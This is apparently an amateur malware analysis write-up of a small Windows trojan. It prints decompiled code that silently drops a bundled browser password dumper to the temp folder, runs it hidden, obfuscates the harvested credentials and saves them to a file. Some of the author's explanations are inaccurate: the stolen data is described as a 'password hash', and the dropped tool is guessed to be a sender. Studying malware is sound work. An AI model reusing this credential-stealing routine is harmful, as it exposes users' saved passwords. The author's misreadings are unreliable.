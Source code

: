 # 229a238ccba1c0ffa2491e794dcafd3b
So whats going on with this file? Lets go in depth and discuss what it is, what it claims to be, and the overall malware sample itself.
Malware sample 229a238ccba1c0ffa2491e794dcafd3b is a simple trojan. The file itself claims to be a (STUB)[https://security.stackexchange.com/questions/42289/what-is-a-stub].
When you run the program here is what it does.
```c
     private static T Create__Instance__<T>(T Instance) where T : Form, new()
            {

                if (Instance == null || Instance.IsDisposed)
                {
                    if (m_FormBeingCreated != null)
                    {
                        if (m_FormBeingCreated.ContainsKey(typeof(T)))
                        {
                            throw new InvalidOperationException(Utils.GetResourceString("WinForms_RecursiveFormCreate"));
                        }
                    }
                    else
                    {
                        m_FormBeingCreated = new Hashtable();
                    }
                    m_FormBeingCreated.Add(typeof(T), null);
                    try
                    {
                        return new T();
                        {
                            TargetInvocationException ex2;
                            string resourceString = Utils.GetResourceString("WinForms_SeeInnerException", ex2.InnerException.Message);
                            throw new InvalidOperationException(resourceString, ex2.InnerException);
                        }
                    }

                    finally
                    {
                        m_FormBeingCreated.Remove(typeof(T));
                    }
                }
                return Instance;
            }
``` 
Once ran the malware searches for the userhash of who ever is signed in.
```c
		public static void main()
		{
			try
			{
				object objectValue = RuntimeHelpers.GetObjectValue(RuntimeHelpers.GetObjectValue(RuntimeHelpers.GetObjectValue(Interaction.GetObject("winmgmts:{impersonationLevel=impersonate}!\\\\.\\root\\cimv2"))));
			}
			catch (Exception ex)
			{
				ProjectData.SetProjectError(ex);
				Exception ex2 = ex;
				Environment.Exit(0);
				ProjectData.ClearProjectError();
			}
			File.WriteAllBytes(Path.GetTempPath() + "\\Hassan.exe", Resources.WebBrowserPassView);
			Interaction.Shell(Path.GetTempPath() + "\\Hassan.exe /stext " + Interaction.Environ("tmp") + "\\PassByHassanAmiri.txt", AppWinStyle.Hide);
			string s = File.ReadAllText(Interaction.Environ("tmp") + "\\PassByHassanAmiri.txt");
			File.Delete(Interaction.Environ("tmp") + "\\PassByHassanAmiri.txt");
			string contents = Convert.ToBase64String(Encoding.ASCII.GetBytes(s)).Replace("p", "axx");
			File.WriteAllText(Path.GetTempPath() + "\\Passwords.bin", contents);
			Application.Exit();
		}
	}
}
```
Once found the malware dumps it to another file "Hassan.exe", which I assume is the sender part of this malware (I apologize for not having this sample. If you have it please do consider shooting me an email or if I find it I will update the repo). Regardless the malware sample saves your password hash as "PassByHassanAmiri.txt" (Subtle right ;).
## Summary
This is a simple trojan it aims to grab the users hash and send it back to the creater of the malware. Also something interesting to note the sample itself is it has a part called WebBrowserPassView and Cultureinfo, which I at first thought where telling it to dump the hashpass but there is no url, webhook or anything pretaining to this sample.